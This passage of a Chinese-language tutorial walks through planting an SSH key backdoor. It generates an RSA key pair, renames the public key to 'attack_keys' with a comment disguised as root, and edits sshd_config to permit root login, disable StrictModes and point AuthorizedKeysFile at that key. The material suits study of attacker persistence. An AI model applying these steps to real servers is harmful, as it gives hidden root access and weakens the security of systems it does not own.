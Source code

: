     ```
    
2. `ssh-keygen -t rsa` 是用来生成 RSA 类型的 SSH 密钥对的命令。执行这个命令会生成一个公钥和一个私钥文件，用于 SSH 连接认证
    
    会在家目录生成`.ssh` 文件夹
    
    ```python
    jan:~$ ssh-keygen -t rsa
    Generating public/private rsa key pair.
    Enter file in which to save the key (/home/ssh/.ssh/id_rsa): 
    Created directory '/home/ssh/.ssh'.
    Enter passphrase for "/home/ssh/.ssh/id_rsa" (empty for no passphrase): 
    Enter same passphrase again: 
    Your identification has been saved in /home/ssh/.ssh/id_rsa
    Your public key has been saved in /home/ssh/.ssh/id_rsa.pub
    The key fingerprint is:
    SHA256:4Wrwsmcg6Ixn40sYR7Dm5XNkkrmmvEyyUrhvaYkEfEY ssh@jan
    The key's randomart image is:
    +---[RSA 3072]----+
    |.                |
    | o Eo            |
    |o.o= o  .        |
    |+ooo=  . .       |
    |o++=..  S        |
    |+== +o .         |
    |BB.+..+          |
    |O=X  +o          |
    |oX+o.o           |
    +----[SHA256]-----+
    jan:~$ 
    ```
    
3. 将`id_rsa.pub`名字进行修改，然后将内容的最后的结尾的`ssh`修改为`root`（不会影响加解密但是会将其混淆）
    
    ```python
    jan:~/.ssh$ mv id_rsa.pub attack_keys
    ```
    
    ```python
    9fglITVq2jKR2UXcDNIYyZeMLz5LU7bUdQluDYSU/LmJ2FsaT7KQ1EAnZbsOGrZlz9/U56c8J+58DvCxCpJVhf5yxQITD11DAVlZQpxX+Ws2n72Sp9Myxzm1s9/2DcA4aueVI/zc8gLuN/WpWcWs= root@jan
    ```
    
4. 修改`sshd_config`配置文件
    
    ```python
    PermitRootLogin yes 
    StrictModes no 
    AuthorizedKeysFile      /home/ssh/.ssh/attack_keys
    ```
    
